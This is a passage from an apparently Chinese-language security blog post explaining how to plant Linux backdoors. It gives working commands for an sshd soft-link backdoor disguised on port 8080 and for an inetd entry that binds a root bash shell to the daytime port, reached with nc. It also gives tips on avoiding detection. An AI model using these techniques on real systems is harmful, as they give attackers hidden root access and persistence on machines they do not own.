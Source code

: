 特点：1. 隐蔽性弱，rookit hunter这类防护脚本可以轻松扫到  
1. 本地查看端口会暴露  
  
1. 能绕过一些流量监控  
  
> 制作过程  
>     1. 创建软连接 
```
ln -sf /usr/sbin/sshd /tmp/su
```

  
  
    1. 设置监听端口。因为本地查看端口容易暴露，建议设置8080，8081伪装 
```
/tmp/su -o Port=8080
```

  
  
运行/tmp/su就等于运行/usr/sbin/sshd,连不上可以nmap扫一下,有防火墙连不上  
  
  
  
- inetd/xinetd后门(很老很老)  
  
监听外部网络请求(socket)的系统守护进程  
**具体工作过程**  
：当inetd收到一个外部请求后，会到配置文件中找到实际处理它的程序，在把socket交给那个程序处理  
  
> inetd后门制作  
>     1. 向/etc/inetd.conf文件中加入一行:
```
daytime stream tcp nowait root /bin/bash bash -i
```

  
  
    1. 开启inet后用nc连接:
```
nc -lvvp 目标ip 13
```

  
  
  
  
  
还有prism后门等在服务器安装软件的，极易被发现  
  
最后  
  
感谢关注蓝云Sec公众号的粉丝朋友，进群加我微信。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/IS2RlFMDPK5ZbcicqVdhedd6YQD4SZUs2mD1s03U8ImWgPibia5vy70sVPC9q03coL3F0mzaC2OKvhtR9zmxNNwLQ/640?wx_fmt=jpeg&watermark=1&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
  
